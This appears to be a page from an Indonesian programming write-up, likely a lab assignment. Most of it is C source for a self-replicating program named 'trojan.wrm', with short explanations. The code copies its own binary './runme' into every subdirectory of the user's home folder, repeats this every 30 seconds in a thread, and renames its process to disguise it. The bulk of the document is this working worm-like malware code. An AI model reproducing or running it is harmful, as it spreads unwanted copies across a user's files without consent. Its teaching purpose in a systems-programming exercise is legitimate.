 ```
void replicate_malware() {
    char *home = getenv("HOME");
    if (!home) return;
    DIR *dir = opendir(home);
    if (!dir) return;

    struct dirent *entry;
    while ((entry = readdir(dir)) != NULL) {
        if (entry->d_type != DT_DIR) continue;
        if (!strcmp(entry->d_name, ".") || !strcmp(entry->d_name, "..")) continue;

        char folder_path[2048];
        snprintf(folder_path, sizeof(folder_path), "%s/%s", home, entry->d_name);

        DIR *sub = opendir(folder_path);
        if (!sub) continue;
        closedir(sub);

        char dest[4096];
        snprintf(dest, sizeof(dest), "%s/runme", folder_path);

        FILE *src = fopen("./runme", "rb");
        FILE *dst = fopen(dest, "wb");
        if (src && dst) {
            char buf[1024];
            size_t n;
            while ((n = fread(buf, 1, sizeof(buf), src)) > 0)
                fwrite(buf, 1, n, dst);
        }
        if (src) fclose(src);
        if (dst) fclose(dst);
    }
    closedir(dir);
}
```
Fungsi `replicate_malware` akan:
- Mengambil path dari environment variable HOME
- Membuka semua subdirektori di dalam folder HOME
- Untuk setiap subdirektori, membuat salinan file ./runme (yaitu binary malware ini sendiri) ke dalam subfolder tersebut

```
void *loop_replicate(void *arg) {
    while (1) {
        replicate_malware();
        sleep(30);
    }
}
```
Agar malware terus menyebar, proses ini dijalankan dalam thread yang mengulang setiap 30 detik.

```
void start_trojan() {
    prctl(PR_SET_NAME, "trojan.wrm");  // Nama proses
    pthread_t t;
    pthread_create(&t, NULL, loop_replicate, NULL);
    pthread_join(t, NULL);
}
```
Thread `loop_replicate` akan dijalankan oleh proses anak yang dinamai `trojan.wrm`.
